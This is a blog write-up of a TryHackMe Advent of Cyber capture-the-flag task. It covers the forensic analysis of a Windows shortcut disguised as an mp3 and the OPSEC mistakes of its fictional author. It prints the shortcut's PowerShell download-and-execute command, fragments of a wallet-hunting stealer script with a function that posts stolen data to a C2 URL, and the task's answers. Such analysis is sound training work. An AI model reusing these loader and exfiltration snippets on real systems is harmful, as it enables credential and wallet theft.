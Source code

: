```yaml
---
categories:
- CTF
layout: post
image:
  path: hacking.png
media_subpath: /assets/posts/2024-12-01-THM-Advent-Day-1
tags:
- Basic
- MerryChristmas
- THM
title: THM - Advent of Cyber - Day 1
---
```

This CTF is done mainly with following the instructions in the task. 

![alt text](image-1_1.png)

## Objectives :


    Learn how to investigate malicious link files.
    Learn about OPSEC and OPSEC mistakes.
    Understand how to track and attribute digital identities in cyber investigations.

Let's begin by starting the machine and scanning for the open ports:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-23 07:14 GMT
Nmap scan report for tryhackme.machine
Host is up (0.00060s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

```

Looks like we have SSH and 2 HTTP ports ports open. Following the instructions let's begin to investigate the website of the host.

![alt text](image.png)

We landed this kind of page which is a YouTube converter. Let's try to convert a random video with it.

![alt text](image-1.png)

We ended up getting an archive called ````download.zip```` these files might contain some information.

````
root@tryhackmeuser:~/Desktop# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 
07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
````
````
root@tryhackmeuser:~/Desktop# file song.mp3
song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
````

File recognized ````song.mp3```` to be a genuine mp3-file but ```somg.mp3``` is a Windows shortcut file which is a ``` .lnk ``` file.

Now let´s use some other forensics tools like ExifTool to extract more information about it.

```` 
root@tryhackmeuser:~/Desktop# exiftool somg.mp3
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:23 07:27:32+00:00
File Inode Change Date/Time     : 2024:12:23 07:26:18+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
````
It contains an PowerShell command which downloads a script from github repo and the author of the script is visible. Bad OPSEC. Let's download the script and see what it contains.

````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
````

Downloaded script seems to be having some malicious code for searching cryptocurrency wallets in Windows environment. As mentioned earlier the author of script is visible, we can now investigate further via visiting this repository.

![alt](image-3.png)

Visiting the repository, there are few issues which are containing this string ````"Created by the one and only M.M."````

![alt text](image-4.png)

Especially this comment draws attention the author is saying that PowerShell is the language mainly preferred. Now looking at the profile i landed on the configuration page of this account and it contained information example full declaration of this abbreviation. ````M.M```` is called ````Mayor Malware````

So the lesson here was that this is a classic case of a bad OPSEC = Operational Security. The whole downloading process was done via the link to this author's own github repository which is not a good way to hide yourself. Also the script contained strings and sentences which are also used in the public repository. 

By using tool called Strings we can extract some information of the ````song.mp3```` file. This contained the author of the song.

````
TAGMount HackIt
Tyler Ramsbey
2024
````


In the script you can see one of the answers, which C2 server this script will send the acquired data.

````
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
````




<h3>Answer the questions below</h3>

Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

````Tyler Ramsbey````

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

````http://papash3ll.thm/data````

Who is M.M? Maybe his Github profile page would provide clues?

````Mayor Malware````

What is the number of commits on the GitHub repo where the issue was raised?

````1````











